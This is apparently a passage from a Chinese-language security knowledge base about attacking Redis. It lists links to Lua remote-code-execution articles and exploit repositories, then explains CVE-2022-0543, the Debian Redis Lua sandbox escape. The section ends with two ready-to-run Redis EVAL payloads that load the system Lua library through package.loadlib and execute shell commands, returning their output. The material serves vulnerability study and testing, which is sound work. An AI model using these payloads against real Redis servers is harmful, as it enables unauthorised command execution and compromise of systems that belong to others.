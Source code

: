 
---

## Lua RCE

**相关文章**
- [在Redis中构建Lua虚拟机的稳定攻击路径](https://www.anquanke.com/post/id/151203/)

**POC | Payload | exp**
- [iSafeBlue/redis-rce](https://github.com/iSafeBlue/redis-rce)
- [QAX-A-Team/redis_lua_exploit](https://github.com/QAX-A-Team/redis_lua_exploit)

---

## CVE-2022-0543 Redis沙盒逃逸

**漏洞描述**

在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module 和 require 以及 package 的 Lua 变量存在于上游 Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而 package 并没有清除，所以导致 redis 可以加载上游的 Lua 全局变量 package 来逃逸沙箱。

**相关文章**
- [CVE-2022-0543 Redis沙盒逃逸分析](https://mp.weixin.qq.com/s/CgFT96vFfnOF4UFGvsCOyg)

**POC | Payload | exp**

需要知道 package.loadlib 的路径
```
# 利用 luaopen_os 函数
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_eval"); return 0' 0

# 利用 luaopen_io 函数
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

